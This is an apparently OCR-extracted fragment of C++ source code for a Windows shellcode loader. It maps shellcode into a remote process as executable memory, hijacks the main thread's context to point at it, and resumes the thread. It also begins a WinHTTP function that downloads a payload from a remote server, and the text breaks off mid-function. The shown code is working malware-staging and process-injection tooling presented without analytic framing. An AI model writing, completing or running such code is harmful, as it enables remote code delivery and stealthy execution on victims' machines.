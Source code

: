 ```
    RtlCopyMemory(hLocalAddress, &shellcode[0], shellcode.size());

    // map section into memory of remote process
    PVOID hRemoteAddress = NULL;

    status = ntMapViewOfSection(
        hSection,
        process_info->hProcess,
        &hRemoteAddress,
        NULL,
        NULL,
        NULL,
        &viewSize,
        ViewShare,
        NULL,
        PAGE_EXECUTE_READWRITE);

    // get context of main thread
    LPCONTEXT pContext = new CONTEXT();
    pContext->ContextFlags = CONTEXT_INTEGER;
    GetThreadContext(process_info->hThread, pContext);

    // update rcx context
    pContext->Rcx = (DWORD64)hRemoteAddress;
    SetThreadContext(process_info->hThread, pContext);

    // resume thread
    ResumeThread(process_info->hThread);

    // unmap memory from local process
    status = ntUnmapViewOfSection(
        GetCurrentProcess(),
        hLocalAddress);
}

std::vector<BYTE> Download(LPCWSTR baseAddress, LPCWSTR filename) {

    // initialise session
    HINTERNET hSession = WinHttpOpen(
        NULL,
        WINHTTP_ACCESS_TYPE_AUTOMATIC_PROXY,    // proxy aware
        WINHTTP_NO_PROXY_NAME,
        WINHTTP_NO_PROXY_BYPASS,
        WINHTTP_FLAG_SECURE_DEFAULTS);          // enable ssl

    // create session for target
    HINTERNET hConnect = WinHttpConnect(
        hSession,
        baseAddress,
        INTERNET_DEFAULT_HTTPS_PORT,            // port 443
        0);

    // create request handle
    HINTERNET hRequest = WinHttpOpenRequest(
        hConnect,
        L"GET",
        filename,
        NULL,
        WINHTTP_NO_REFERER,
        WINHTTP_DEFAULT_ACCEPT_TYPES,
        WINHTTP_FLAG_SECURE);                   // ssl

    // send the request
```